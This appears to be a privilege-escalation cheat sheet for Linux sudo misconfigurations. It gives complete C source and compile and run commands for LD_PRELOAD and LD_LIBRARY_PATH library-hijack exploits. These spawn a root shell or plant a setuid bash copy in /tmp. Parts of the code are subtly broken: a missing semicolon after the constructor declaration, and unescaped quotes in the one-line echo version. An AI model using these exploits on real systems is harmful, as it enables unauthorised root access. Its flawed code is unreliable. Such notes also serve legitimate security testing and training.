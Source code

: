 ## `LD_PRELOAD` exploit
- If `env_keep+=LD_PRELOAD` is set, use this exploit.
- `ld_preload_exploit.c`:
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
- Compile it:
```bash
gcc -shared -fPIC -nostartfiles -o /tmp/ld_preload.so ld_preload_exploit.c
```
- Run sudo program with `LD_PRELOAD`:
```bash
sudo LD_PRELOAD=/tmp/ld_preload.so <sudo_program>
```

## `LD_LIBRARY_PATH` exploit
- If `env_keep+=LD_LIBRARY_PATH` is set use this exploit.
- Pick the shared library to replace:
```bash
ldd <sudo_program>
```
- `ld_library_path_exploit.c`:
```C
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor))

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash"); // Or /bin/bash -p
}
```
- Or create the file in one line:
```bash
echo -e "#include <stdio.h>\n#include <stdlib.h>\nstatic void hijack() __attribute__((constructor))\nvoid hijack() {\nunsetenv("LD_LIBRARY_PATH");\nsetresuid(0,0,0);\nsystem(\"cp /bin/bash /tmp/bash && chmod +s /tmp/bash\");}" > ld_library_path_exploit.c
```
- Compile it:
```bash
gcc -shared -fPIC -o ./<picked_library_name> ld_library_path_exploit.c
```
- Run sudo program with `LD_LIBRARY_PATH`:
```bash
sudo LD_LIBRARY_PATH=. <sudo_program>
```
